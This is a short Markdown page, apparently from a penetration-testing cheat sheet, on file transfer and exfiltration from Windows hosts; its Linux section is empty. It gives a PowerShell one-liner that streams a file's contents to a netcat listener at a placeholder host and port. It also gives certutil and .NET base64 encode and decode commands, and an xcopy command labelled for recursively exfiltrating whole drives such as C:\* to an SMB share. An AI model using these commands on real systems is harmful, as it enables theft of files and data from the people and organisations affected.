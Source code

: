 ```yaml
---
layout: default
title: File Transfers
tags:
    - download
    - exfiltration
    - scp
    - smb
    - tftp
    - upload
---
```

# File Transfers
## Linux

## Windows
Powershell Send File to Netcat
```shell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

Base 64 Encoding
```shell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```shell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

Exfill files recursively
```shell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`